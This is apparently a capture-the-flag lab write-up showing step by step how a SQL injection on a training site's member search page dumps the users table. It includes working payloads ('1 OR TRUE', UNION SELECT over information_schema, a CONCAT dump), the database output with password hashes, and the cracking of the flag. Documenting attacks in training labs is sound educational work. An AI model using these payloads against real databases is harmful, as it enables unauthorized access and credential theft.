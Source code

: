 # SQL injection on members table

## How we found the breach

From the page `http://IP/?page=member`, where we can find a members search engine by user ID.

### Legit search

First of all we try to find a user with a `userID` equal to `1`:

Input:

```sql
1
```

Output:

```txt
ID: 1
First name: one
Surname : me
```

We can see that the server returns two fields for the user.

### Simple SQL injection attempt

Starting hacking using a really simple sql injection such as:

Input:

```sql
SELECT * FROM users
```

Output:

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

The server shows us the raw MariaDB error, and we can see that our query has been added to a prebuilt one. We think that the prebuilt query should be something like this:

```sql
SELECT first_name, surname FROM users WHERE users.id = ${id} 
```

### Condition injection

To be able to retrieve all the entries of `users` table, we need to create a SQL query that has a `WHERE` clause always evaluating to `TRUE`. We achieve this result by adding a `OR TRUE` condition:

Input:

```sql
1 OR TRUE
```

Resulting on the server as a query like this:

```sql
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE
```

Output:

```
ID: 1 OR TRUE 
First name: one
Surname : me

ID: 1 OR TRUE 
First name: two
Surname : me

ID: 1 OR TRUE 
First name: three
Surname : me

ID: 1 OR TRUE 
First name: Flag
Surname : GetThe
```

There are four users in the `users` table. The last one looks quite suspicious.

### UNION SELECT SQL injection

source: https://www.sqlinjection.net/column-names/

As we could build a custom SQL query from our own input, by using the UNION SELECT attack we can build a new query over the first one and change its behavior completely.

We want to discard all results of the first SELECT and only keep those of our own SELECT. For that we make sure the WHERE clause of the first SELECT always evaluates to `FALSE`.

Input:

```sql
-1 UNION SELECT * FROM users
```

As a serial integer is never negative, no user can have an id that is `-1`.

Output:

```sql
The used SELECT statements have a different number of columns
```

The problem there is that our second `UNION SELECT` query returns more columns than the initial sql query, that returned 2 columns, due to selecting all fields with `*`.

### Finding all tables columns name

Our goal is to retrieve the name of all columns of the `users` table, to be able to select which of them we want to query with the `UNION SELECT` injection.

To do so we will be using the default database `information_schema.columns` information.

Input:

```sql
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Output:

```
<!-- OTHER DATABASE INFORMATION -->

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign

<!-- OTHER DATABASE INFORMATION -->
```

We have retrieved the whole database tables and columns name, focusing on the users table we can find the following columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

### Using `CONCAT` injection

source: https://makitweb.com/how-to-concatenate-multiple-columns-in-mysql/

What we want now is to retrieve the value of all the columns for each user, concatenated inside a single column, as the initial query can return at most 2 columns.

Input:

```sql
-1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users
```

Output:

```sql
ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```

Inside the last user we can find the operations to do to retrieve the flag.

#### Retrieving the flag

Via md5 decrypt of `5ff9d0165b4f92b14994e5c685cdce28` string, contained in the `countersign` users table column, we get `FortyTwo`.

Hashing using sha256 the `fortytwo` results in `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## How to exploit the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/Explanation.md)

## How to avoid the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/Explanation.md)
